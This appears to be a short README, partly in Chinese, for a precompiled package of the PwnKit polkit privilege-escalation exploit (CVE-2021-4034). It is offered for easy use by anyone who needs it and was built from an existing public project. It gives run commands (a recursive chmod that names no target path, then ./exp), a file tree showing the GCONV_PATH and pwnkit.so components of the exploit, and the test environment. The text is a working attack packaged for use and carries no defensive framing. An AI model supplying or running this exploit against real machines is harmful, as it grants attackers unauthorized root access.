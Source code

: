 # Polkit-Permission-promotion-compiled
Polkit提权包 CVE-2021-4034 （Easy access for those who need it)

源项目（需编译）：https://github.com/berdav/CVE-2021-4034

此为已编译后项目，全部导入

```python
chmod -R 777 2>/dev/null
```

```python
./exp
```

eg. dir tree：
```
CVE-2021-4034
├─ GCONV_PATH=.%
│    └─ pwnkit.so:.
├─ exp
├─ gconv-modules
├─ pwnkit.c
└─ pwnkit.so
```

Environment：
> ubuntu-16.04.7
> glibc 2.23
